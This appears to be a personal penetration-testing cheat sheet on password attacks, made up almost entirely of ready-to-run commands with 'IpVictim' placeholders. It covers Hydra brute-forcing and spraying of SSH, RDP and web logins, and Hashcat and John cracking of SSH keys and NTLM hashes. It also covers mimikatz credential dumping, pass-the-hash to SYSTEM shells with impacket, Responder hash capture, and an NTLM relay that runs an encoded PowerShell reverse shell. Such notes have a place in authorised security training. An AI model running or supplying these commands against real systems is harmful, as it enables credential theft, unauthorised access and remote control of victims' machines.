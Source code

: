 # Password attacks

## Hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```

### Http

```
hydra -P wordlist.txt http-post-form $IpVictim "/baseurl:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

```
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hastcat wordlist.txt -r rulelist.txt --stdout
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```

## Powershell

Find extensions:
```
Get-ChildItem -Path C:\ -Include *.someextension -File -Recurse -ErrorAction SilentlyContinue
```

## Ssh passphrase

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```

## NTLM

On Windows:
```
Get-LocalUser
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```
Back on Kali:
```
hashcat -h | grep -i ntlm
hashcat -m ntlm.mode user.hash /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM

```
smbclient \\\\IpVictim\\someshare -U Administrator --pw-nt-hash adminhash # smb> get file.txt
impacket-psexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # nt authority\system
impacket-wmiexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # host\administrator

```

## Net-NTLMv2

Kali
```
sudo responder -I ethX
```
Windows
```
smb \\IpAtt\fakeshare
```
then `hashcat`

## Relay Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t IpVictim -c "powershell -enc base64reverseshell"
```
